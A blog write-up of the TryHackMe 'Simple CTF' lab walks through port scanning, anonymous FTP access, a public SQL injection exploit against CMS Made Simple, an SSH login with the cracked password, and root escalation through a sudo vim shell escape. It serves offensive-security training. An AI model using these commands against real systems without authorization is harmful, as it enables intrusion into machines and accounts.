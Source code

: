 ```yaml
---
title: "TryHackMe - Simple CTF"
author: Nasrallah
description: ""
date: 2022-01-27  00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, ftp, sqli, python, crack, sudo]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Simple CTF](https://tryhackme.com/room/easyctf) from [TryHackMe](https://tryhackme.com/), an easy machine where we find an outdated CMS, us an exploit for that to get ssh credentials, and finally escalate to root using Vim. If you have any questions please feel free to ask me on any of my [socials](https://nasrallahbaadi.github.io/about).

## **Enumeration**

### nmap

As always, we run a nmap scan:

```terminal
$ sudo nmap -sC -sV -p- 10.10.92.122 | tee scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-27 05:26 EST
Nmap scan report for 10.10.92.122
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 open port:

 - 21 - FTP
 - 80 - HTTP
 - 2222 - SSH

### FTP

From the nmap scan, we see that anonymous FTP login is allowed, so let's take a look:

```terminal
$ ftp 10.10.92.122                                                                                                                                   130 ⨯
Connected to 10.10.92.122.
220 (vsFTPd 3.0.3)
Name (10.10.92.122:sirius): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44846|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |****************************************************************************************************************|   166        1.86 MiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.64 KiB/s)
ftp>
```

>NOTE: When i tried to list the content, it gave me this "229 Entering Extended Passive Mode (|||44846|)" the way i solved was by typing `ctrl+c` and then the command `passive`.

The file we found is a note indicating that the password is so weak and can be cracked in seconds!

### HTTP

Let's now check the web server and see what's there:

![home](/assets/img/tryhackme/simplectf/home.png)

Nothing interesting, let's run a directory scan using Gobuster:

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.92.122 | tee scans/gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.92.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/27 06:07:56 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.92.122/simple/]

===============================================================
```

We found **/robots.txt** file and **/simple** directory, robots file has nothing useful for us, and we find CMS Made Simple running on the machine, and it is displaying the version of it in the bottom left corner:

![version](/assets/img/tryhackme/simplectf/version.png)

We found that this version of the CMS is vulnerable to SQL injection, here is the [exploit](https://www.exploit-db.com/exploits/46635).

### SQLi

After downloading the exploit, we can launch the attack with the following command:`python <exploit>.py -u http://{target_IP}/simple/ -c -w {path/to/the/wordlist}`


```terminal

[+] Salt for password found: 1daREDACTED6bb2
[+] Username found: m___h
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468REDACTEDc7eb73846e8d96
[+] Password cracked: s_____

```

> Note: I have masked the the data above, but if you run the exploit, you will get the username and the password.


## **Foothold**

Now that we have a username and password, we can try to connect to SSH

`ssh -p 2222 username@{target_IP}`

```terminal
$ ssh -p 2222 m____@10.10.92.122
m____@10.10.92.122's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Thu Jan 27 13:58:57 2022 from 10.11.31.131
$ ls
user.txt
```

Great, we got access to the machine via SSH, let's do some enumeration to see what can we find:

```terminal
$ sudo -l
User m___h may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```


## **Privilege Escalation**

With our current user, we can run `vim` as root, this is great, if we go to [GTFPBins](https://gtfobins.github.io/) we can see that there is a way to escalate our privileges to root using this command: `sudo vim -c ':!/bin/bash'` , so let's do it:

```terminal
$ sudo vim -c ':!/bin/bash'

root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:~# ls /root
root.txt
```

And just like that, we got root on the machine.

I hope you guys have enjoyed this machine, see you in the next hack.
